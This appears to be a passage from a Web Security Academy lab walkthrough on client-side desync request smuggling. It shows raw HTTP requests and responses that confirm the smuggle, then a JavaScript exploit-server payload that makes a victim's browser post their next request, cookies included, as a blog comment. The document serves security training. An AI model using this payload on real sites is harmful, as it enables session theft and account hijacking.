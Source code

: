         POST /en/post/comment HTTP/1.1
        Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net
        Cookie: session=Ki1OUL0PWNSPstkSBha0kyrJJFaIFnO9;
        Content-Length: 800
        Content-Type: application/x-www-form-urlencoded

        csrf=aZWOe0vSwtmozANjrR1kjf0U8lKqJfnc&postId=4&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

    Request 2:

        GET /en HTTP/1.1
        Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net
        Connection: keep-alive

Notice the response:

    HTTP/1.1 302 Found
    Location: /en
    X-Frame-Options: SAMEORIGIN
    Keep-Alive: timeout=10
    Content-Length: 0

    HTTP/1.1 302 Found
    Location: /en/post/comment/confirmation?postId=7
    X-Frame-Options: SAMEORIGIN
    Keep-Alive: timeout=10
    Content-Length: 0


This means we have successfully smuggled the `POST /en/post/comment HTTP/1.1` request. Now at the exploit server, copy this to the body:

    <script>
        let smuggled_request = [
            "POST /en/post/comment HTTP/1.1",
            "Host: 0a37000703f2bff38244386600f8001e.h1-web-security-academy.net",
            "Cookie: session=Ki1OUL0PWNSPstkSBha0kyrJJFaIFnO9;",
            "Content-Length: 800",
            "Content-Type: application/x-www-form-urlencoded",
            "Connection: keep-alive",
            "",
            "csrf=aZWOe0vSwtmozANjrR1kjf0U8lKqJfnc&postId=5&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=",
        ].join("\r\n");

        fetch("https://0a37000703f2bff38244386600f8001e.h1-web-security-academy.net/", {
            method: "POST",
            body: smuggled_request,
            credentials: "include",
            mode: "cors", // ensure we don't follow redirects and the catch block is excuted
        }).catch(() => {
            fetch(
                "https://0a37000703f2bff38244386600f8001e.h1-web-security-academy.net/en",
                {
                method: "GET",
                credentials: "include",
                mode: "no-cors",
                }
            );
        });
    </script>
